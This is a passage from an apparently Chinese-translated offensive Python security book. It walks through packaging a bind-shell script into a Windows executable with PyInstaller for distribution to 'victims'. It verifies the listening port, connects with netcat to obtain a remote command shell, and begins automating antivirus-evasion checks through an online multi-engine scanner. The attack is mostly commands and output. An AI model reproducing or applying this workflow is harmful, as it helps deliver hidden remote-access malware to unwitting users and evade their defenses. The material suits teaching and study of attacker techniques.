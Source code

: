 ```py
C:\Users\victim\pyinstaller-1.5.1>python.exe Makespec.py --onefile --noconsole bindshell.py
wrote C:\Users\victim\pyinstaller-1.5.1\bindshell\bindshell.spec
now run Build.py to build the executable 
```

接下来，建立了说明文件后，我们将指示 Pyinstaller 建立一个可执行文件分发给我们的受害者。Pyinstaller 创建一个名为`bindshell.exe` 的可执行程序在目录`bindshell\dist\`下，我们现在可以分发这个可执行程序给任何 Windows 32 位系统的受害者。

```py
C:\Users\victim\pyinstaller-1.5.1>python.exe Build.py bindshell\bindshell.spec
I: Dependent assemblies of C:\Python27\python.exe:
I: x86_Microsoft.VC90.CRT_1fc8b3b9a1e18e3b_9.0.21022.8_none
checking Analysis
<..SNIPPED..>
checking EXE
rebuilding outEXE2.toc because bindshell.exe missing
building EXE from outEXE2.toc
Appending archive to EXE bindshell\dist\bindshell.exe 
```

在我们的受害者的电脑上运行可执行程序后，我们可以看到 TCP 的 1337 端口正在监听。

```py
C:\Users\victim\pyinstaller-1.5.1\bindshell\dist>bindshell.exe
C:\Users\victim\pyinstaller-1.5.1\bindshell\dist>netstat -anp TCP
Active Connections
Proto Local Address oreign Address State
TCP 0.0.0.0:135 0.0.0.0:0 LISTENING
TCP 0.0.0.0:1337 0.0.0.0:0 LISTENING
TCP 0.0.0.0:49152 0.0.0.0:0 LISTENING
TCP 0.0.0.0:49153 0.0.0.0:0 LISTENING
TCP 0.0.0.0:49154 0.0.0.0:0 LISTENING
TCP 0.0.0.0:49155 0.0.0.0:0 LISTENING
TCP 0.0.0.0:49156 0.0.0.0:0 LISTENING
TCP 0.0.0.0:49157 0.0.0.0:0 LISTENING 
```

连接到受害者的 IP 地址和 TCP 的 1337 端口，我们看到我们的恶意软件正在成功的运行，正如预期的那样。但是它能成功的躲避杀毒软件码？在下一节我们将编写一个 Python 脚本来验证：

```py
attacker$ nc 192.168.95.148 1337
Microsoft Windows [Version 6.0.6000]
Copyright (c) 2006 Microsoft Corporation. All rights reserved.
C:\Users\victim\pyinstaller-1.5.1\bindshell\dist> 
```

## 验证躲避

我们将使用服务`vscan.novirusthanks.org` 扫描我们的可执行程序。NoVirusThanks 提供了一个 WEB 页面接口上传可疑文件并用 14 种不同的杀毒引擎扫描。使用 WEB 页面接口上传恶意文件时可以告诉我们我们想知道的，让我们利用这个机会编写一个快速的 Python 脚本来自动化处理这个过程。用 tcpdump 捕获和 WEB 页面接口交互的过程给了我们的 Python 脚本的一个很好的开始点。我么可以看到，HTTP 头包含了一个围绕文件内容边界的设定。我们的脚本需要这些头和这些参数，为了提交文件：

```py
POST / HTTP/1.1
Host: vscan.novirusthanks.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryF17rwCZdGuPNPT9U
Referer: http://vscan.novirusthanks.org/
Accept-Language: en-us
Accept-Encoding: gzip, deflate-------WebKitFormBoundaryF17rwCZdGuPNPT9U
Content-Disposition: form-data; name="upfile";filename="bindshell.exe"
Content-Type: application/octet-stream
<..SNIPPED FILE CONTENTS..>
------WebKitFormBoundaryF17rwCZdGuPNPT9U
Content-Disposition: form-data; name="submitfile"
Submit File
------WebKitFormBoundaryF17rwCZdGuPNPT9U-- 
```
